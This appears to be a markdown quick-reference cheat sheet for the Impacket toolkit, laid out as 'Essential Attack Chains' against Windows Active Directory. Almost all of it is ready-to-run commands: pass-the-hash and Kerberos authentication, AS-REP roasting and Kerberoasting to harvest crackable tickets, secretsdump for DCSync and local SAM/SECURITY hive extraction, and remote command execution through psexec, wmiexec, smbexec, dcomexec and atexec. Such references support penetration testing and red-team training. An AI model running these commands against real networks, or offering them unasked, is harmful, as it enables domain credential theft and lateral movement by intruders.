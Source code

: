 # Impacket Quick Reference Guide

## Authentication Methods (Universal)
```bash
# Password authentication
python3 tool.py domain.com/user:password@target

# NTLM hash authentication  
python3 tool.py -hashes :ntlmhash domain.com/user@target

# Kerberos authentication
python3 tool.py -k domain.com/user@target -dc-ip 192.168.1.10

# AES key authentication
python3 tool.py -aesKey aes_key domain.com/user@target -k
```

## Essential Attack Chains

### 🎯 Initial Access
```bash
# ASREPRoast (no creds needed)
python3 GetNPUsers.py domain.com/ -dc-ip DC_IP -request

# Kerberoasting (valid creds needed)
python3 GetUserSPNs.py domain.com/user:pass -dc-ip DC_IP -request
```

### 🔓 Credential Extraction
```bash
# Domain Controller (DCSync)
python3 secretsdump.py domain.com/admin:pass@dc.domain.com -just-dc

# Workstation/Server
python3 secretsdump.py domain.com/admin:pass@target.domain.com

# Local files
python3 secretsdump.py -sam sam -security security -system system LOCAL
```

### 🚀 Lateral Movement
```bash
# PSExec (SMB + Service)
python3 psexec.py domain.com/admin:pass@target

# WMIExec (WMI + DCOM)
python3 wmiexec.py domain.com/admin:pass@target

# SMBExec (SMB without service)
python3 smbexec.py domain.com/admin:pass@target

# DCOM Exec
python3 dcomexec.py domain.com/admin:pass@target

# Scheduled Tasks
python3 atexec.py domain.com/admin:pass@target "command"
```
